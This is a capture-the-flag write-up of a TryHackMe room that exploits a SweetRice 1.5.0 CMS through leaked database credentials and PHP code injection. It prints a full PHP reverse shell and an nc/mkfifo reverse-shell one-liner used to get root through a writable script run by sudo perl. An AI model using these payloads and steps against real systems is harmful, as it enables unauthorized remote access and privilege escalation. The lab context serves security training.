




So when i did opened its ip into the browser it was a default apache2 page.


After that i went to directory enumuration and i found 1 endpoint alive it was

http://IP/content

All stuff was just inside it.

like :

- /_themes/
- /changelog.txt
- /images/
- /inc/
- /index.php
- /index.php/login/
- /js/
- /license.txt

While the nmap doesn't gave me anything useful.

While in turn it gave me only that port 22 and port 80 is opened.

Now if we see the page /content



We can clearly understand that a website management system named sweetrice is installed

And the link given in this page is 

http://www.basic-cms.org/docs/5-things-need-to-be-done-when-SweetRice-installed/

but this is not working anymore 

so instead i googled the term

'5-things-need-to-be-done-when-SweetRice-installed'

And i got a working link that is

- https://www.sweetrice.xyz/docs/5-things-need-to-be-done-when-SweetRice-installed/

when we open this page we can clearly see it is written that 

SweetRice save all important file in the inc directory.

And when we open the file 

- /content/changelog.txt

we are able to see the version of sweetrice that is 1.5.0

and now we can find exploit for it using searchsploit.

Exploit didn't succeed but it gave me a login page into the exploit code that is

http://ip/content/as/

While enumurating we did a find a file too at the location

http://10.49.174.221/content/inc/mysql_backup/mysql_bakup_20191129023059-1.5.1.sql

and in this file we found the credentials.

But especially the password was not in plaintext while the username was.

After cracking the hash of password we login at http://ip/content/as

Here it is



Yet i revisited the exploit again and found something useful

it was this exploit 

https://www.exploit-db.com/exploits/40700

And it was telling me it could gave me php  code exection.

Upon looking at its code it was trying to create a page with the help of sweetrice with the help of 

http://10.48.165.31/content/as/?type=ad functionality of sweetrice.

It allowed you to create a page with a name and desription

As the exploit was doing the same i did the same too.

It was embedding php code into the desription section 

I also embedded the php code into the description too.

After embeeding the code i tapped  on done.



After doing so it gave me a script tag a embeeding technique.

```html
<script type="text/javascript" src="http://10.48.165.31/content/?action=ads&adname=Hackedphp"></script>
```

Instead i took the url and opened it into a new tab and yup the whoami in php gets executed.



Once we did it i tried to the php rce injection.

I tried many php payload and got succeed at one that is

```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.246.164';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}

?>
```

This gave me the shell into my listener.

After it i went into filesytem and there i got the answer of our first quesiton that is

What is user flag?

It is stored in the /home/itguy/user.txt.

There was also a file there in the location /home/itguy

it was mysql_login.txt

It cotains and username  and password in the format 

Username:Password

And i was able to login and inspect the database but not before upgrading the raw shell to full tty shell with 

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Then only with the  command 

mysql -u rice -p

I could login with correct password.

Now we're moving towards the step of privilage escalation with checking misconfigured binaries with

```bash
sudo -l
```

And its output was

sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl

And yup the current user "www-data" could run the backup.pl file as root.

Moreover, The script /home/itguy/backup.pl can be run as root without root password with the help of only single file named /usr/bin/perl

With the command 

sudo /usr/bin/perl /home/itguy/backup.pl

But since when viewing the permission of the file backup.pl we cannnot control the backup.pl file cuz of it permission assigned to it.

But if we see what is actully inside the file backup.pl.

this is the content

```bash
#!/usr/bin/perl

system("sh", "/etc/copy.sh");

```
This short code is running another file named copy.sh into the folder /etc/

And if we see the permission of the file copy.sh we see we have write permission of this file

-rw-r--rwx 1 root root 81 Nov 29  2019 copy.sh

As we are now going to attach a rev shell that will be helpful in getting the root shell.

If that rev shell will be run as root we will definetly get the shell as root.
So we are here now going to change the contents of copy.sh as we have write permission of the file with the command 

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.246.164 4444 >/tmp/f" > copy.sh

Adjust the IP and PORT as per you requirement.

Now after doing so we are going to execute the /home/itguy/backup.pl

Which  will do a domino effect and leading to execute the copy.sh as root cuz of the content inside the backup.pl

The next executing command from us is 

sudo /usr/bin/perl /home/itguy/backup.pl

At the same time before executing the above command 

We have our listerner setup on the local machine as we execute that above commadn 

We got our root shell and yet there i could read the content of root flag at the location

/root/root.txt

And in this way we will get our answer of our 2nd question that is what is the root flag.

And Yup!! the room is solved.
